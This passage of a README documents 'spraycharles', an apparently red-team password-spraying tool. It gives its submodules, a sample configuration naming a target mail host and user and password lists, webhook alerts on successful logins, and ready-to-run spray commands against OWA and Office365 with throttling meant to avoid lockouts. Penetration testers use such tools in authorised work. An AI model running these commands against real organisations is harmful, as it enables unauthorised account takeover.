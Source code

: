 Spraycharles also includes other submodules:

```
Usage: spraycharles [OPTIONS] COMMAND [ARGS]...

Options:
  --help  Show this message and exit.

Commands:
  analyze  Analyze existing csv files.
  gen      Generate custom password lists from JSON file.
  modules List all the available spraying modules
  parse    Parse NTLM over HTTP and SMB endpoints to collect domain...
  spray    Low and slow password spraying tool.
```

See below for further information about these modules.

### Config File
It is possible to pre-populate command line arguments form a configuration file using the `--config` argument.

An example configuration file is listed below:

```python
usernames = '/tmp/users.txt'
passwords = '/tmp/passwords.txt'
output = 'mail.acme.com.csv'
module = 'owa'
host = 'mail.acme.com'
domain = 'ACME'
analyze = 'True'
attempts = '1'
interval = '30'
timeout = '25'
```

### Notifications
Spraycharles has the ability to issue notifications to Discord, Slack and Microsoft Teams following a potentially successful login attempt. This list of notification providers can augmented using the utils/notify.py script. For any of the potential notification agents, you must specify its name and a webhook URL.

It is best to specify this information using the configuration file to keep your command shorter:

```python
notify = 'slack'
webhook = 'https://hooks.slack.com/services/T00000000/B00000000/XXXXXXXXXXXXXXXXXXXXXXXX'
```

Notifications sent to any of the providers will include the targeted hostname associated with the spraying job. This is expecially useful when spraying multiple targets at once using spraycharles.

### Examples
Basic usage (Office365)
```bash
spraycharles spray -u users.txt -p passwords.txt -m Office365
```
Basic usage (non-Office365) with a single password, supplied via command line
```bash
spraycharles spray -u users.txt -H webmail.company.com -p Password123 -m owa
```
Attempt 5 logins per user every 20 minutes
```bash
spraycharles spray -u users.txt -H webmail.company.com -p passwords.txt -i 20 -a 5 -m owa
```
Usage with fireprox (Office365)
```bash
```

[pypi-shield]: https://img.shields.io/pypi/v/spraycharles?style=for-the-badge
[pypi-url]: https://pypi.org/project/spraycharles/
[contributors-shield]: https://img.shields.io/github/contributors/tw1sm/spraycharles.svg?style=for-the-badge
[contributors-url]: https://github.com/tw1sm/spraycharles/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/tw1sm/spraycharles.svg?style=for-the-badge
[forks-url]: https://github.com/tw1sm/spraycharles/network/members
[stars-shield]: https://img.shields.io/github/stars/tw1sm/spraycharles.svg?style=for-the-badge
[stars-url]: https://github.com/tw1sm/spraycharles/stargazers
[issues-shield]: https://img.shields.io/github/issues/tw1sm/spraycharles.svg?style=for-the-badge
[issues-url]: https://github.com/tw1sm/spraycharles/issues
[license-shield]: https://img.shields.io/github/license/tw1sm/spraycharles.svg?style=for-the-badge
[license-url]: https://github.com/tw1sm/spraycharles/blob/master/LICENSE